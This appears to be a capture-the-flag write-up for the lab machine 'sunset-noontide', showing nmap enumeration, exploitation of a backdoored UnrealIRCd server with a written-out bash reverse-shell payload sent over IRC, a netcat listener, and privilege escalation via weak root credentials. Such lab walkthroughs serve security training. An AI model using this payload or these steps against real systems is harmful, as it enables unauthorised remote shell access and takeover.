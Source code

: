 ```yaml
---
layout: post
author: H4
---
```


Vulnhub resource
[Details](https://www.vulnhub.com/entry/sunset-noontide,531/)
This box was customized by Offensive Security and integrated in the 'proving grounds' lab.  
In the following you see the solution of the 'proving grounds' version.  

# enumeration
Performing a simple `nmap` scan to identify the attack surface.

## nmap
```bash
$ nmap -Pn 192.168.156.120                                                                                                                                                                                                            1 ⨯
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-03 00:38 EST
Nmap scan report for 192.168.156.120
Host is up (0.027s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
6667/tcp open  irc

Nmap done: 1 IP address (1 host up) scanned in 1.71 seconds
```

```bash
$ nmap -Pn -p6667 -sV 192.168.169.120
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-02 16:18 EST
Nmap scan report for 192.168.169.120
Host is up (0.11s latency).

PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
Service Info: Host: irc.foonet.com
```

Only an `IRC` service could be identified.

---

# exploitation
## scan for vulnerabilities
```bash
$ nmap -Pn -p6667 --script="irc*" 192.168.156.120
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-03 00:39 EST
Nmap scan report for 192.168.156.120
Host is up (0.025s latency).

PORT     STATE SERVICE
6667/tcp open  irc
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277

Nmap done: 1 IP address (1 host up) scanned in 17.52 seconds
```

```bash
$ searchsploit unrealirc backdoor
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                                                                                                              | linux/remote/16922.rb
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

> The installed `IRC` server seems to be backdoored!
{: .prompt-info}

Reviewing the source code of the `metasploit` module reveals that a simple payload can be used to access the backdoor.  
![image](/images/sunsetnoontide1.png)

## get reverse shell
payload: ```AB;bash -c 'bash -i >& /dev/tcp/192.168.49.156/80 0>&1'```

### start listener on attacking machine
```bash
$ nc -lvp 80  
listening on [any] 80 ...
```

### trigger backdoor
```bash
$ nc 192.168.156.120 6667                             
:irc.foonet.com NOTICE AUTH :*** Looking up your hostname...
:irc.foonet.com NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB;bash -c 'bash -i >& /dev/tcp/192.168.49.156/80 0>&1'
```

### catch connect from target
```bash
$ nc -lvp 80  
listening on [any] 80 ...
192.168.156.120: inverse host lookup failed: Unknown host
connect to [192.168.49.156] from (UNKNOWN) [192.168.156.120] 48232
bash: cannot set terminal process group (396): Inappropriate ioctl for device
bash: no job control in this shell
server@noontide:~/irc/Unreal3.2$ whoami
whoami
server
```

---

# post exploitation
## get first flag
```bash
server@noontide:~$ cd /home/server
server@noontide:~$ ls
ls
irc
local.txt
server@noontide:~$ cat local.txt
cat local.txt
4******************************9
```

## privilege escalation

> The account `root` uses wek credentials: `root:root`.
{: .prompt-info}

```bash
server@noontide:~/irc/Unreal3.2$ su root
root@noontide:~/irc/Unreal3.2# whoami
whoami
root
```

---

## second flag
```bash
root@noontide:/tmp# cd /root
cd /root
root@noontide:~# ls
ls
proof.txt
root@noontide:~# cat proof.txt
cat proof.txt
3******************************2
```

Pwned! <@:-)
